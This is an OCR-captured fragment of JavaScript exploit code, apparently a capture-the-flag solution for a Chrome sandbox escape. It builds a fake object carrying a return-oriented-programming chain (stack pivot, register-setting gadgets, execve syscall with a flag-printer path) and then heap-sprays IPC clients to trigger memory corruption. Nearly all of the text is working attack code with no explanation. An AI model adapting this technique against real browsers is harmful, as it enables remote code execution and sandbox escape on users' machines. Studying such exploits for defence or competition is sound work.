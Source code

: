 ```html
  let boxed_mem = BigInt(heap_leak) + 0x18n;
  let fake_object = new BigUint64Array(0x800 / 8);

  let prog_addr = boxed_mem - 7n + 15n * 8n;

  fake_object.fill(0x4141414141414141n);
  fake_object[0] = 0x68732f6e69622fn; // /bin/sh
  fake_object[1] = prog_addr;
  fake_object[2] = 0n;
  fake_object[5] = chrome_base + 0x0590cc13n; // mov rsp, [rdi]; mov rbp, [rdi+8]; mov dword ptr [rdi+0x20], 0; jmp qword ptr [rdi+0x10];

  fake_object[6] = pop_rdi;
  fake_object[7] = prog_addr;
  fake_object[8] = pop_rsi;
  fake_object[9] = boxed_mem + 8n - 7n;
  fake_object[10] = pop_rdx;
  fake_object[11] = 0n;
  fake_object[12] = pop_rax;
  fake_object[13] = 59n;
  fake_object[14] = syscall;

  fake_object[15] = 0x68632f656d6f682fn; // /home/ch
  fake_object[16] = 0x616c662f656d6f72n; // rome/fla
  fake_object[17] = 0x65746e6972705f67n; // g_printe
  fake_object[18] = 0x72n; // r

  fake.pourSand(new Uint8Array(fake_object.buffer));
  print(`Fake object at: ${hex(boxed_mem)}`);

  await uploadLogs();

  let clients = [];
  for (let i = 0; i < 1000; i++) {
    clients.push(newClient());
  }

  let spray = [];
  for (let i = 0; i < 100; i++) {
    spray.push(newClient());
  }

  let iface = newClient();

  let arg2 = new BigUint64Array(0x1020 / 8);
  arg2[0x800 / 8] = BigInt(boxed_mem) + 1n;
  arg2[0x800 / 8 + 0x818 / 8] = 0n;
  arg2[2 + 0x800 / 8] = move_stack;

  let arg = new Uint8Array(arg2.buffer);

  for (let i = 0; i < clients.length; i++) {
    clients[i].pourSand(arg);
  }

  for (let i = 0; i < 100; i++) {
    iface.pourSand(arg);
    iface.ptr.reset();
    iface = newClient();
  }

  for (let i = 0; i < spray.length; i++) {
    spray[i].pourSand(arg);
```
